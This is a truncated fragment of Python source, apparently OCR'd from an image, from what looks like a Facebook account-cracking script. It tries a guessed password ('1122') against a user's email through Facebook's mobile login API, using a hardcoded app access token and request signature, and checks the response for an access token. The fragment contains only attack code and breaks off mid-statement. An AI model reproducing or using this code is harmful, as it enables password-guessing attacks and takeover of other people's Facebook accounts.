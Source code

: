 pass10 = '1122'                                                                                     data = urllib.urlopen(                                                                                         "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=" + (                                                                                             user) + "&amp;locale=en_US&amp;password=" + (                                                                                             pass10) + "&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                                                                                     q = json.load(data)                                                                                     if 'access_token' in q:                                                                                         print
